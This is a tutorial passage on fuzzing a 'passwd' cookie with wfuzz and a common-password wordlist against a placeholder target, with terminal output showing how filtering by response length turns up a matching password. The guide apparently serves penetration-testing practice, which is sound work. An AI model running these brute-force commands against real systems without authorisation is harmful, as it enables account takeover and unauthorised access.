 ## Fuzzing Cookies
We can easily fuzz cookies with [wfuzz](https://github.com/xmendez/wfuzz). To view your cookie values, click on the [Cookie Quick Manager](https://addons.mozilla.org/en-US/firefox/addon/cookie-quick-manager/) installed in Firefox in Demon Linux. Next, grab the name and value of the cookie. Say, we want to fuzz the "passwd" cookie. We can do so with,
```
root@attacker-machine:~# wfuzz -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```
This will run though the word list of 10-million-password-list-top-500.txt and replace the cookie value, passwd, with the value from the wordlist and attempt to make a new HTTP request using that new cookie value. This will return a LOT of strings like so,
```
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                    *
********************************************************

Target: http://(TARGET IP ADDRESS):(TARGET PORT)
Total requests: 500

==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00000:  C=000     14 L	      29 W	    324 Ch	  "12345678"
00001:  C=000     14 L	      29 W	    324 Ch	  "qwerty"
00002:  C=000     14 L	      29 W	    324 Ch	  "123456789"
00003:  C=000     14 L	      29 W	    324 Ch	  "12345"
00004:  C=000     14 L	      29 W	    324 Ch	  "1234567"
00005:  C=000     14 L	      29 W	    324 Ch	  "1234"
00006:  C=000     14 L	      29 W	    324 Ch	  "123456"
00007:  C=000     14 L	      29 W	    324 Ch	  "111111"
00008:  C=000     14 L	      29 W	    324 Ch	  "password"
00009:  C=000     14 L	      29 W	    324 Ch	  "dragon"
00010:  C=000     14 L	      29 W	    324 Ch	  "123123"
00011:  C=000     14 L	      29 W	    324 Ch	  "123321"
00012:  C=000     14 L	      29 W	    324 Ch	  "mustang"
```
As you can see, they all have something in common - the Character length of 324 is returned from the server after we make each HTTP request with the new cookie. So, we need to filter out these false-positives using the `--hh` filter as so,
```
root@attacker-machine:~# wfuzz --hh 324 -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT)
```
This will now be much cleaner responses, like the following terminal listing,
```
root@attacker-machine:~# wfuzz --hh 324 -z \
 file,/infosec/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt\
 -b passwd=FUZZ http://(TARGET IP ADDRESS):(TARGET PORT) 
********************************************************
* Wfuzz 2.1.3 - The Web Bruteforcer                    *
********************************************************

Target: http://(TARGET IP ADDRESS):(TARGET PORT)
Total requests: 500

==================================================================
ID	Response   Lines      Word         Chars          Request    
==================================================================

00475:  C=000     21 L	      48 W	    540 Ch	  "SuperSecretPass123"

Total time: 1.719570
Processed Requests: 500
Filtered Requests: 499
Requests/sec.: 290.7702

root@attacker-machine:~#
```
